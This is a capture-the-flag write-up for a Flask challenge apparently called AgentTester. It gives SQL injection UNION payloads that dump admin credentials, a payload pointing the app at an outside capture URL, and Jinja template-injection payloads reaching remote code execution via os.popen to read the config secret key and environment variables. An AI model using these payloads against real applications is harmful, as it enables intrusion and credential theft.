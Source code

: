 # AgentTester

The code of the aplication was provided and looking at the code we can see that is vulnerable to sql injection (Later i discovered that this wasnt really necessary because the tables names can be checked in the aplication files but hey, is cool):

`SELECT userAgent, url FROM uAgents WHERE userAgent = '%s'`


Lets get the tables names:
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' --`
`' UNION SELECT name, name FROM sqlite_master WHERE type='table' and name!="uAgents"--`

Table names:
- uAgents
- user

The user table is what we want here i guess. Lets try this:

`' UNION SELECT username, password FROM user --`

And the page gave us: `Testing User-Agent: admin in url: *)(@skdnaj238374834**__**=` cool! So we now have the admin credentials:

```
admin:*)(@skdnaj238374834**__**=
```

Also we can use whatever endpoint and user agent we want:

`' UNION SELECT 'AgentTester v1','https://hookb.in/oXYJDgO6yzS1mmLaRZax' --`


Next, i noticed that the endpoint `/debug` exists (The challenge provided the code but im silly and didnt take a look until now). Looking at the app code, i noticed that it ask for a specific session ID, probably the admin user. I got the admin user so was not too hard to get access to it using Postman (Just copied the header `Cookie` from my browser to Postman). 

After some research, looks like we can inject flask under the key `code` with a POST form to the `/debug` endpoint. For example:

```
code:{{config}}

<Config {'ENV': 'production', 'DEBUG': False, 'TESTING': False, 'PROPAGATE_EXCEPTIONS': None, 'PRESERVE_CONTEXT_ON_EXCEPTION': None, 'SECRET_KEY': '1L5&wnIh4!Rz6Ufo^iY?aRyV2qXM+kz5', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31), 'USE_X_SENDFILE': False, 'SERVER_NAME': None, 'APPLICATION_ROOT': '/', 'SESSION_COOKIE_NAME': 'auth', 'SESSION_COOKIE_DOMAIN': False, 'SESSION_COOKIE_PATH': None, 'SESSION_COOKIE_HTTPONLY': True, 'SESSION_COOKIE_SECURE': False, 'SESSION_COOKIE_SAMESITE': None, 'SESSION_REFRESH_EACH_REQUEST': True, 'MAX_CONTENT_LENGTH': None, 'SEND_FILE_MAX_AGE_DEFAULT': datetime.timedelta(seconds=43200), 'TRAP_BAD_REQUEST_ERRORS': None, 'TRAP_HTTP_EXCEPTIONS': False, 'EXPLAIN_TEMPLATE_LOADING': False, 'PREFERRED_URL_SCHEME': 'http', 'JSON_AS_ASCII': True, 'JSON_SORT_KEYS': True, 'JSONIFY_PRETTYPRINT_REGULAR': False, 'JSONIFY_MIMETYPE': 'application/json', 'TEMPLATES_AUTO_RELOAD': None, 'MAX_COOKIE_SIZE': 4093, 'SQLALCHEMY_DATABASE_URI': 'sqlite:///DB/db.sqlite', 'SQLALCHEMY_TRACK_MODIFICATIONS': False, 'SQLALCHEMY_BINDS': None, 'SQLALCHEMY_NATIVE_UNICODE': None, 'SQLALCHEMY_ECHO': False, 'SQLALCHEMY_RECORD_QUERIES': None, 'SQLALCHEMY_POOL_SIZE': None, 'SQLALCHEMY_POOL_TIMEOUT': None, 'SQLALCHEMY_POOL_RECYCLE': None, 'SQLALCHEMY_MAX_OVERFLOW': None, 'SQLALCHEMY_COMMIT_ON_TEARDOWN': False, 'SQLALCHEMY_ENGINE_OPTIONS': {}}>
```

Funny. What about this:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}

uid=1000(uwsgi) gid=0(root) groups=0(root)
```

So we have remote code execution. After some digging i found the flag listing all the envars of the machine:

```
code:{{request.application.__globals__.__builtins__.__import__('os').popen('printenv').read()}}

BASE_URL=challenge.nahamcon.com KUBERNETES_SERVICE_PORT=443 KUBERNETES_PORT=tcp://10.116.0.1:443 UWSGI_ORIGINAL_PROC_NAME=uwsgi HOSTNAME=agenttester-691977e06298952e-5c9d4d6f8f-ssqhz SHLVL=1 PYTHON_PIP_VERSION=21.0.1 PORT= HOME=/root GPG_KEY=E3FF2839C048B25C084DEBE9B26995E310250568 _=/usr/local/bin/uwsgi PYTHON_GET_PIP_URL=https://github.com/pypa/get-pip/raw/b60e2320d9e8d02348525bd74e871e466afdf77c/get-pip.py KUBERNETES_PORT_443_TCP_ADDR=10.116.0.1 PATH=/usr/local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin KUBERNETES_PORT_443_TCP_PORT=443 KUBERNETES_PORT_443_TCP_PROTO=tcp LANG=C.UTF-8 CHALLENGE_FLAG=flag{fb4a87cfa85cf8c5ab2effedb4ea7006} PYTHON_VERSION=3.8.8 ADMIN_BOT_PASSWORD=*)(@skdnaj238374834**__**= KUBERNETES_SERVICE_PORT_HTTPS=443 KUBERNETES_PORT_443_TCP=tcp://10.116.0.1:443 CHALLENGE_NAME=AgentTester PWD=/app ADMIN_BOT_USER=admin KUBERNETES_SERVICE_HOST=10.116.0.1 PYTHON_GET_PIP_SHA256=c3b81e5d06371e135fb3156dc7d8fd6270735088428c4a9a5ec1f342e2024565 UWSGI_RELOADS=0
```

Flag: `flag{fb4a87cfa85cf8c5ab2effedb4ea7006}`
